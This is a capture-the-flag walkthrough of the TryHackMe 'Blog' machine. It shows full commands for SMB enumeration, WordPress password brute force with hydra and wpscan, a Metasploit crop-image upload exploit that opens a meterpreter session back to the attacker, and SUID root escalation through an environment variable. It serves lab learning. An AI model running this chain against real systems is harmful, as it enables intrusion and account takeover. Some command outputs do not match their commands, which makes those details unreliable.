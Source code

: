 ```yaml
---
title: Blog - Medium THM # name your WU = Name - [Level] [Platform]
date: 2023-11-01 12:01:23 +/-0800 # configure the date same as the name of your file
categories: [writeup, tryhackme] # categories, First the parents than the child-category, 2 or 3 MAX !
writeup: :title # don't touch me!
permalink: /blog # / and the name
tags: [thm, medium, writeup, linux, wordpress] #TAG names always lowercase (a,b,c,d,e,f...)
---
```


- OS: Linux
- Difficulty: Medium
- Author: Talace

## **Scanning**
### Threader3000.py
```
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
```

### Nmap scan
```
nmap -p21,80 -sV -sC -T4 -Pn -oA 10.10.10.5 10.10.10.5

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open              Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## **Enumeration**
### SMB Enumeration with enum4linux & smbclient
```
enum4linux 10.10.15.175 -A

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
BillySMB        Disk      Billy's local SMB Share
IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
```

Now that we've found some shared folder, let's dig in it.
```
smbclient --no-pass //10.10.15.175/BillySMB

  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020
```

Found nothing interesting, let's go on the wordpress
## Exploit
### Brute force login page w/ hydra & wpscan
#### wpscan brute force attack login
```
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt
```
#### (another way with hydra) Hydra brute force attack login
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
```

now let's search for an exploit in metasploit
```
search WordPress 5.0.0

#  Name                            Disclosure Date  Rank       Check  Description
-  ----                            ---------------  ----       -----  -----------
0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```

Perfect! Let's try it!
```
set LHOST 10.8.138.226
set RHOSTS 10.10.15.175
set USERNAME kwheel
set PASSWORD *********

run
```

Nice we get our meterpreter session!

## **Privilege escalation**
### Suid file

Found the file
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null\

-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

Ltrace it to see what's done in there
```
ltrace /usr/sbin/checker

getenv("admin")                                  = "1"
setuid(0)                                        = 0
system("/bin/bash")
```

Since we only need admin to be true and present in the env, let's export the value
```
export admin=1
```

And run it again!
```
/usr/sbin/checker
```

Got root!
Now let's find user.txt and root.txt, since we now the creator of this box is a player
```
find / -type f -name "user.txt"

/home/bjoel/user.txt
/media/usb/user.txt
```

And root.txt!
```
find / -type f -name "user.txt"


/root/root.txt
```
